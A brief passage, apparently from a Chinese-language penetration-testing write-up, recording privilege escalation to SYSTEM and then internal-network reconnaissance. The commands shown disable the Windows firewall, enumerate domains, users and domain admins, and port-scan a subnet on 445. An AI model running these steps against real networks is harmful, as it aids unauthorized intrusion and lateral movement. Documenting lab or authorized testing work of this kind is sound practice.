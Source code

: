![image-20220909122954111](images/19.png)

提权到了system

# 内网渗透

## 信息收集

```
查看基本信息shell ipconfig /all，发现机器有双网卡，内网 10.10.10.1/24 网段，DNS服务器10.10.10.10，也就是域控
关闭防火墙netsh advfirewall set allprofiles state off
查看有几个域net view /domain
查看域名net config workstation
查看域内主机net view
查询域内用户net user /domain
查看域管理员net group "domain admins" /domain  
内端口扫描portscan 10.10.10.0/24 445 arp 200
```

![](images/20.png)
